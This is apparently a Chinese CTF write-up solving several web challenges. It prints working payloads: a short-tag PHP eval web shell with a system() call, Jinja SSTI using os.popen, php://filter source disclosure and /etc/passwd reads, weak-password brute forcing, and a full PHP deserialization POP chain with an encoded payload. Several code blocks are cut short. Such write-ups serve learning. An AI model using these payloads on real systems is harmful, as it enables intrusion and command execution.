

easy_file
首先进来就是一个登录页面
用 bp 测一下用户名和密码
1 | const particlesContainer = document.getElementById('particles'); |
注意：本题的用户名和密码会自动进行 Base64编码 ，爆破的时候要注意一下
同时这里发现了源码泄露，即//file查看头像
我们可以在管理后台传入file，进行文件包含
用户名和密码测出：
1 | 用户名：admin //YWRtaW4= |
然后进入管理员后台，发现是一个文件上传
后缀应该用的白名单，尝试.htaccess .user.ini Php 大小写绕过一堆都没成功，只允许上传jpg文件
一般文件上传题目如果只允许上传jpg等文件，一般都存在文件包含漏洞
本题进行了内容检测，不能出现<?php，这里用短标签绕过
1 | <?=eval($_POST[1]);?> |

payload：
1 | 1=system%28%27ls%27%29%3B |
nest_js
又是一个登录页面
弱口令爆破一下，admin / password，登录进去就给flag
星愿信箱
测了一下，考 SSTI 注入
然后 {{ }} 被过滤了，这里我用的是{% %}
payload：
1 | {%print(lipsum.__globals__['os'].popen('ls /').read())%} |
多重宇宙日记
先注册一个账号user，然后在个人资料页面看源码
1 | // ============================================ |
审计一下
payload：
1 | { |
然后就可以在管理员面板查看 flag 了
easy_signin
扫描目录得到login.html，进去是一个登录页面
好开心，一直在登录…
看源码
1 | const loginBtn = document.getElementById('loginBtn'); |
在源码处看到/api.js，得到/api/sys/urlcode.php?url=
存在一个传参点，试试 php伪协议，这里过滤了php，可以使用大小写绕过
1 | /api/sys/urlcode.php?url=file:///etc/passwd |
发现可以读取。那么读取一下<font style="color:rgb(77, 77, 77);">api/sys/urlcode.php</font>
1 | /api/sys/urlcode.php?url=phP://filter/read=convert.base64-encode/resource=/var/www/html/api/sys/urlcode.php |
解码得到：
1 |
|
可以看到进行了过滤
并且 flag 应该在327a6c4304ad5938eaf0efb6cc3e53dc.php里面
访问一下看看
拿到flag
君の名は
考察PHP反序列化
1 |
|
因为自己对反序列化漏洞还不是很熟，所以会写的尽可能详细一点
核心漏洞点分析
入口与正则绕过
1 | $Litctf2025 = $_POST['Litctf2025']; |
- 功能：接收 POST 参数并反序列化。
- 过滤：禁止以
O:数字或a:数字开头（不区分大小写）。这是为了阻止直接序列化对象和数组。 - 绕过：提示已经非常明显：“把O改成C不就行了吗”。在 PHP 中，
C:代表 Custom Object Serialization（自定义对象序列化）。当使用C:格式时，PHP 会调用类的__unserialize()方法而不是传统的__wakeup()，且完全绕过了O:的正则检测。
关键可利用类
Taki 类 (触发器)
1 | public function __unserialize(array $data) { |
__unserialize是C:格式的入口。它会将$data['musubi']当作可调用对象执行。__call是一个强大的万能跳板：可以new任意类（带一个构造参数），并调用该对象的任意无参方法。
Mitsuha 类 (桥梁)
1 | public function __invoke() { |
- 当被当作函数调用时（配合 Taki 的
__unserialize），会触发字符串拼接，进而触发$this->memory或$this->thread的__toString()。
KatawareDoki 类 (命令执行触发点)
1 | public function __toString() { |
- 当被转为字符串时，会调用
$this->soul->flag($arg1, $arg2)。 - 如果
$this->soul是一个没有flag方法的对象，就会触发该对象的__call魔术方法。
攻击链构造 (POP Chain)
真实链路还原
KatawareDoki::__toString()被触发
$ b->thread = $ c;→ 当$ b（Mitsuha）被当作字符串拼接时（$ this->memory . $ this->thread），触发$ c（KatawareDoki）的__toString()。Taki::__call()** 被触发**
在KatawareDoki::__toString()中：( $ this->soul)->flag( $ this->kuchikamizake, $ this->name);
因为$ c->soul = $ a（Taki 对象），且 Taki 没有flag方法，所以触发Taki::__call('flag', ['ReflectionFunction', '\0lambda_1'])。- 动态实例化 + 方法调用（RCE 核心）
Taki::__call内部执行：php编辑
1 | (new $args[0]($args[1]))->{$this->magic}(); |
$ args[0]="ReflectionFunction"（由$ c->kuchikamizake控制）$ args[1]="\0lambda_1"（由$ c->name控制，即create_function生成的匿名函数名）$ this->magic="invoke"（由$ a->magic预设）
- 命令执行
ReflectionFunction("\0lambda_1")->invoke()成功调用了create_function创建的匿名函数，执行die(/readflag)，获取 Flag。
EXP：
1 |
|
输出了：
1 | O%3A11%3A%22ArrayObject%22%3A4%3A%7Bi%3A0%3Bi%3A0%3Bi%3A1%3Ba%3A1%3A%7Bs%3A4%3A%22evil%22%3BO%3A4%3A%22Taki%22%3A2%3A%7Bs%3A6%3A%22musubi%22%3BO%3A7%3A%22Mitsuha%22%3A2%3A%7Bs%3A6%3A%22memory%22%3BN%3Bs%3A6%3A%22thread%22%3BO%3A12%3A%22KatawareDoki%22%3A3%3A%7Bs%3A4%3A%22soul%22%3Br%3A4%3Bs%3A13%3A%22kuchikamizake%22%3Bs%3A18%3A%22ReflectionFunction%22%3Bs%3A4%3A%22name%22%3Bs%3A9%3A%22%00lambda_1%22%3B%7D%7Ds%3A5%3A%22magic%22%3Bs%3A6%3A%22invoke%22%3B%7D%7Di%3A2%3Ba%3A0%3A%7B%7Di%3A3%3BN%3B%7D |
最后，把O改成C即可
注意：每访问一次页面，create_function就会执行一次，也就是说lambda后面的数字是会变的，最好是重开一个容器